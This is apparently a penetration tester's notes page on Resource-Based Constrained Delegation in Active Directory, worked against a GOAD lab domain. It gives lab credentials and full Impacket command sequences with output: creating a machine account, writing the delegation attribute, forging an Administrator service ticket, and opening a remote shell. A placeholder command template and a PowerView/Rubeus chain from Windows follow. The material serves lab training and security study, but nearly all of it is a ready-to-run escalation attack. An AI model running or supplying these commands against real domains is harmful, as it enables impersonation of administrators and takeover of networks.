 **Resource-Based Constrained Delegation (RBCD)** is a delegation method in Active Directory environments where control over delegation is assigned to the resource. It works by allowing a resource (like a server) to specify which accounts can impersonate users to access that resource using their Kerberos tickets (TGS—Ticket Granting Service).

If a user has GenericAll/GenericWrite over a host, RBCD is possible

![[Pasted image 20241109135409.png]]

### User

- stannis.baratheon@sevenkingdoms.local:Drag0nst0ne

### The Attack

First, we need to add a computer account:

```bash
garffff@garffff:~/GOAD$ addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip 192.168.56.10 sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account rbcd$ with password rbcdpass.
```

Next, is to add the delegation access:

```bash
garffff@garffff:~/GOAD$ rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 192.168.56.10 -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] rbcd$ can now impersonate users on kingslanding$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd$        (S-1-5-21-2059722235-425686273-3516464344-1127)
```

We can now impersonate the target user by requesting a TGS:

```bash
garffff@garffff:~/GOAD/v1$ getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 192.168.56.10 'sevenkingdoms.local/rbcd$:rbcdpass'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache```

Load the ticket:

```bash
garffff@garffff:~/GOAD/v1$ export KRB5CCNAME=Administrator.ccache
```

Access the target host (DNS is required):

```bash
garffff@garffff:~/GOAD/v1$ wmiexec.py -k -no-pass kingslanding.sevenkingdoms.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
sevenkingdoms\administrator
```

### Summary

```bash
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip <dc_ip> '<domain>/<user>:<password>
rbcd.py -delegate-from 'rbcd$' -delegate-to '<target_computer>' -dc-ip <dc_ip> -action 'write' '<domain>/<user>:<password>
getST.py -spn 'cifs/<target_computer>.<domain>' -impersonate <target_user> -dc-ip <dc_ip> '<domain>/rbcd$:rbcdpass'
export KRB5CCNAME=<target_user>.ccache
wmiexec.py -k -no-pass <target_computer>.<domain>
```

### From Windows

```bash
Import-Module .\powermad.ps1
Import-Module .\powerview.ps1

$TargetComputer = "<target_computer>.<domain>"  
$AttackerSID = Get-DomainUser <user> -Properties objectsid | Select -Expand objectsid  
$ACE = Get-DomainObjectACL $TargetComputer | ?{$_.SecurityIdentifier -match $AttackerSID}  
ConvertFrom-SID $ACE.SecurityIdentifier  
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)  
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid  
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList  
"O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"  
$SDBytes = New-Object byte[] ($SD.BinaryLength)  
$SD.GetBinaryForm($SDBytes, 0)  
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}  
$RawBytes = Get-DomainComputer $TargetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-  
allowedtoactonbehalfofotheridentity  
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0

.\Rubeus.exe hash /password:Summer2018! /user:attackersystem /domain:<domain>

.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:harmj0y /msdsspn:cifs/<target_computer>.<domain> /ptt

#Clean up
Get-DomainComputer $TargetComputer | Set-DomainObject -Clear 'msds-allowedtoactonbehalfofotheridentity'
```